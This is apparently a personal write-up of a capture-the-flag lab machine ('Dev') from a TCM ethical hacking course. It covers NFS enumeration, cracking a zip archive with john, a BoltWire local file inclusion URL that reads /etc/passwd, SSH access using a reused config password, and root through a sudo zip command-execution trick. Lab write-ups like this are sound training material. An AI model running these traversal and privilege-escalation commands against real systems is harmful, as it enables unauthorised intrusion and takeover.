








# Dev (TCM)

- Machine from TCM Ethical Hacking Course
- March 12, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
2. 80/http Apache httpd 2.4.38 ((Debian))
3. 111/rcpbind
4. 2049/nfs
5. 8080/http Apache httpd 2.4.38 ((Debain))

### NFS

- first see, which directory is mounted
- mount to our local machine and check its content

```sh
showmount -e $IP
mkdir /tmp/dev
sudo mount $IP:/srv/nfs /tmp/dev
```
- only `save.zip` exists
- copy it to our machine (with root access)
- unzip it

```sh
unzip save.zip
```
- need password and crack with john

```sh
zip2john save.zip > forjohn
john forjohn --wordlist=/usr/share/wordlists/rockyou.txt
```
- found password
- unzip and found 2 files - `id_rsa` and `todo.txt`

```sh
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```

### HTTP/80



- directory bruteforcing with ffuf

```
app
extensions
public
src
vendor
```

- app



- get config.yml and found db username, password
```
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```



- but it is empty

- vendor




### HTTP/8080



- directory bruteforcing with ffuf

```
dev
```





- above passwords are not working
- Register as new user
- I found local file inclusion from searchsploit
- `BoltWire 6.03 - Local File Inclusion `
- with registered account, get this url
- `http://$IP:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`




## User Access

- Previously, I get id_rsa and now I get usernames
- try to enter users with id_rsa key
```
root
jeanpaul
```
- oh! There is only one user and enter ssh with id_rsa
- need passphrase
- try to crack with john
- I thought it is not a correct way and stop cracking with john
- instead I enter with password that I got from web config file
```
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```
- get jeanpaul access

## Root Access

```sh
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ echo $TF
/tmp/tmp.HjxqLKSlk0
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
# whoami
root
# 
```

```sh
# cat flag.txt
Congratz on rooting this box !
```

---